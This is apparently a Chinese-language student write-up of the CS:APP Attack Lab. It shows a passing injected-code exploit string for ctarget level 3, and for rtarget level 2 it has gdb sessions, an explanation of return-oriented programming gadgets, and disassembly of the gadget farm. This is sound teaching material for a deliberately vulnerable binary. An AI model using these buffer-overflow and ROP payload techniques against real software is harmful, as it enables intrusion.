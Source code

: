 ```sh
   user id  bovik
   course   15213-f15
   lab   attacklab
   result   1:PASS:0xffffffff:ctarget:3:48 C7 C7 89 DC 61 55 48 83 EC 40 68 FA 18 40 00 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```
## Rtarget level2

使用Return-Oriented Programming 来完成同样的touch2的攻击。这次的限制条件是不能在栈上注入代码，因为rtarget使用了栈随机化和段检查，导致程序不能执行栈上的代码。由于我不信，所以来验证一下：

栈随机化：
```sh
Breakpoint 1, getbuf () at buf.c:16
16  buf.c: No such file or directory.
(gdb) print $rsp
$1 = (void *) 0x7ffffffb16d0
(gdb) kill
Kill the program being debugged? (y or n) y
(gdb) run -q -i args.txt 
Starting program: /home/sugar/csappLab/attacklab/rtarget -q -i args.txt
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:16
16  in buf.c
(gdb) print $rs
$2 = (void *) 0x7ffffffa6d50
```
发现确实两次相同断点位置的rsp的值不同。

禁止执行栈上的代码
```sh
sugar@ubuntuServer:~/csappLab/attacklab$ ./rtarget -q -i args.txt 
Cookie: 0x59b997fa
Ouch!: You caused a segmentation fault!
Better luck next time
FAIL: Would have posted the following:.......
```
根据writeup中的说明，我们仍然可以用buffer的溢出来注入一些数据，但是这次只能利用源程序汇编代码中已有的字节码，断章取义，拼凑出我们想要执行的代码。

比如
```x86asm
c7 07 d4 48 89 c7       movl   $0xc78948d4,(%rdi)
c3                      retq
```
可以断章取义为：
```x86asm
48 89 c7     movq %rax, %rdi
c3     retq
```
所以在利用buffer溢出的时候，在栈上填写我们想要的地址或者数据，再从源程序中找到可以构成有意义的代码的片段，完成攻击。writeup中提示，可以在rtarget的函数start_farm和mid_farm之间的汇编代码中找到想要的，所以找就完事了。下面是rtarget的反汇编文件部分内容：
```x86asm
0000000000401994 :
  401994:	b8 01 00 00 00       	mov    $0x1,%eax
  401999:	c3                   	retq   
...

00000000004019a7 :
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
...
00000000004019c3 :
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```